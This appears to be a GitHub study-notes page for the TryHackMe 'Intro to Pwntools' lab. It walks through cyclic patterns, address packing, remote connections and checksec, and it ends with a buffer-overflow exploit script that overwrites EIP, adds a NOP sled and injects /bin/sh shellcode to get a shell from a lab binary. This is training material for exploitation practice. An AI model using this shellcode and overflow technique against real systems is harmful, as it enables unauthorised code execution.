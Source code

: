 TryHackMe Room: https://tryhackme.com/room/introtopwntools
Github: https://github.com/dizmascyberlabs/IntroToPwntools

## Commands & Code

### Cyclic
- Cyclic allows you to output random alphabet chars X times in some kinda random order to allow you easily find which pattern overflowed the program when invetigating with gdb
- Equvilant code:
```py 
from pwn import *

padding = cyclic(100) # padding = aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
padding = cyclic(cyclic_find('jaaa')) # will right as many patterns as it needs until it reaches this specific pattern "jaaa"
eip = p32(0x8048536) # p32 & p64 which is equal to struct.pack and struct.unpack which is useful when giving an input as actual hex -- e.g. p32(0xdeadbeef) == b'\xde\xad\xbe\xef'

payload = padding + eip

print(payload)
```

## Network Pwning
- When trying to communicate with network service such as netcat to a ip & port you can (and for ease of use) use pwntools to send and recieve data e.g.
```py
from pwn import *


connect = remote('127.0.0.1', 1337) # create a connection to ip & port

print(connect.recvn(18)) # recvn recieves input of 18 bytes (strict), recvline(), recv() and recvuntil("some text: ")
payload = "A"*32 # repeat char 'A' 32 times
payload += p32(0xdeadbeef)
connect.send(payload) # send data to connection
print(connect.recvn(34)) # print recieved data

connect.interactive() # most important when dealing with RCE or anything that requires terminal interaction otherwise the connection will be closed/not interacted with
```

## Shellcraft
- One of the most amazing commands/functions is `shellcraft` it can be used as a terminal command or a python function from pwntools lib
- E.g.
```py
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd4e0+200)
nop_sled = "\x90"*1000

execu = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" # generated using command `shellcraft i386.linux.sh -f s` see `shellcraft -h` for more amazing info

payload = padding + eip + nop_sled + execu
#print(payload)
proc.send(payload)
proc.interactive()
```

## Checksec
- One of the amazing commands as well to check if an ELF/executable file have specific security protections such as:
```v
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```